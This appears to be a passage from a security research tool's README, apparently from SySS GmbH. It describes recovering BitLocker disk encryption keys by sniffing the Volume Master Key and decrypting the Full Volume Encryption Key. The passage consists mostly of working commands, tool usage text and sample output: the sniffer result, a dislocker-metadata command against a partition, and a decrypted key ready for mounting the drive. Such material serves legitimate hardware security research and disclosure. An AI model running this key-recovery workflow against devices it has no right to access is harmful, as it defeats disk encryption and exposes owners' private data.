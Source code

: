 ```
[*] Start sniffing
[*] Received 2556 bytes
[+] Found BitLocker VMK: 784f31369defc6b8d2baa354b6119f0777395962feb29b40efcf3078b48189ba
[+] Created VMK file 'vmk.bin' for use with BitLocker FVEK Decrypt
```

Encrypted BitLocker Full Volume Encryption Keys (FVEK) can be decrypted using the Python tool **BitLocker FVEK Decrypt**.
```
$ python bitlocker_fvek_decrypt.py --help
 
  ___ _ _   _            _             _____   _____ _  __  ___                       _  
 | _ |_) |_| |   ___  __| |_____ _ _  | __\ \ / / __| |/ / |   \ ___ __ _ _ _  _ _ __| |_
 | _ \ |  _| |__/ _ \/ _| / / -_) '_| | _| \ V /| _|| ' <  | |) / -_) _| '_| || | '_ \  _|
 |___/_|\__|____\___/\__|_\_\___|_|   |_|   \_/ |___|_|\_\ |___/\___\__|_|  \_, | .__/\__|
                                                                            |__/|_|      
BitLocker FVEK Decrypt v0.2 by Matthias Deeg - SySS GmbH
Decrypts encrypted BitLocker Full Volume Encryption Keys (FVEK)
---
usage: ./bitlocker_key_decryptor.py [-h] -f FILENAME -k KEY
 
optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        File with dislocker-metadata output of targeted BitLocker-encrypted partition
  -k KEYFILE, --keyfile KEYFILE
                        File with sniffed BitLocker Volume Master Key (VMK)
```

The encrypted FVEK, the used nonce, and the corresponding message authentication code (MAC) can be extracted from the encrypted BitLocker-partition using the software tool [dislocker-metadata](https://github.com/Aorimn/dislocker).
```
sudo dislocker-metadata -V /dev/sda2 > dislocker-metadata.txt
```

The following output exemplarily illustrates the successful decryption of a FVEK with the correctly sniffed VMK:
```
$ python bitlocker_fvek_decrypt.py -f dislocker-metadata.txt -k vmk.bin
 
  ___ _ _   _            _             _____   _____ _  __  ___                       _  
 | _ |_) |_| |   ___  __| |_____ _ _  | __\ \ / / __| |/ / |   \ ___ __ _ _ _  _ _ __| |_
 | _ \ |  _| |__/ _ \/ _| / / -_) '_| | _| \ V /| _|| ' <  | |) / -_) _| '_| || | '_ \  _|
 |___/_|\__|____\___/\__|_\_\___|_|   |_|   \_/ |___|_|\_\ |___/\___\__|_|  \_, | .__/\__|
                                                                            |__/|_|      
BitLocker FVEK Decrypt v0.2 by Matthias Deeg - SySS GmbH
Decrypts encrypted BitLocker Full Volume Encryption Keys (FVEK)
---
[+] Extracted nonce:
    409b87a369dbd501d9010000
[+] Extracted MAC:
    12c7b1c759e76ad88c3efd451a0fc945
[+] Extracted payload:
    fd82fcf27ded951a2327e2e9d00b9ba0a3245f949bc53163bcc26088531215d17be6f99794d3fcfeb22bb41e
[+] Decrypted Full Volume Encryption Key (FVEK):
    561bd26ca61fa3fb3445994b0f62649ce86e90085c0ff25dda57be61c2667cb6
[+] Created FVEK file 'fvek.bin' for use with dislocker
```
